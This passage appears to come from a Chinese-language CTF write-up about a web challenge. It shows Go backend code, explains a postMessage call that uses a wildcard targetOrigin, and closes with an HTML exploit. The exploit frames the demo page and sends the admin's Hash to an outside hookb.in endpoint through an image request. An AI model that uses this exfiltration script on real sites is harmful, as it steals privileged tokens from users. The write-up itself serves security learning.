 ```GO
		if isset == nil {
			if cookie.Value == CONFIG.admin_token {
				hash = CONFIG.admin_hash
				token = CONFIG.admin_token
			}
		}

		cookie = &http.Cookie{Name: "Token", Value: token, HttpOnly: true, Path: "/api"} // 设置Cookies
		result := Sanitized{Sanitized: string(sanitized_data), Raw: unsanitized.Raw, Hash: hash} // 返回的JSON
		http.SetCookie(w, cookie) 
        json.NewEncoder(w).Encode(result) // {Sanitized, Raw, Hash} 这里向前端返回了Hash用于后续的Save操作
	}
}
```

​	我们能够在前端Console中查看后端返回的Data，使用`data`，

{{< image src="https://image.p1nant0m.com/image-20210927160743166.png" caption="后端返回的 Data" src_s="https://image.p1nant0m.com/image-20210927160743166.png" src_l="https://image.p1nant0m.com/image-20210927160743166.png" >}}

​	注意到这里的Cookie被设置了为`HttpOnly`，这导致我们无法使用脚本去获取Cookie的值，

> ​	JavaScript [`Document.cookie`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie) API 无法访问带有 `HttpOnly` 属性的cookie；此类 Cookie 仅作用于服务器。例如，持久化服务器端会话的 Cookie 不需要对 JavaScript 可用，而应具有 `HttpOnly` 属性。此预防措施有助于缓解[跨站点脚本（XSS） (en-US)](https://developer.mozilla.org/en-US/docs/Web/Security/Types_of_attacks)攻击。

​	从后端返回的Sanitized_Data被直接写入到HTMLBODY中，通过`document.body.innerHTML`设置，这样便可以确保被浏览器渲染的代码是安全的。

​	在`preview.js`中有一段对破题具有十分重要提示的代码

​																				`window.parent.postMessage(response, "*"); `  

​	这里的targetOrigin被设置为了`*`，这意味着任何载入该`frame`的页面都能够收到此`response`（response: {Sanitized, Raw, **Hash**}）

> ​	我们能够构造一段恶意的Script，在HTML中载入/demo的frame，接着让adminBot访问该页面，我们就能够获取admin身份下，response中的Hash，这段Hash的作用在之后的分析中还会提及。

恶意Script代码的构造，

```html
<script>
    function exploit() {
        document.getElementById("iframe").contentWindow.postMessage("Hello","*")
    }

    window.addEventListener("message",(event)=>{
        var img = new Image();
        img.src = "https://hookb.in/NOP1yLbpQwSe8mNN8mR2?hash=" + encodeURIComponent(event.data.Hash);
    },false);
</script>
<iframe src="http://localhost:8080/demo" id="iframe" onload="exploit()"></iframe>
```
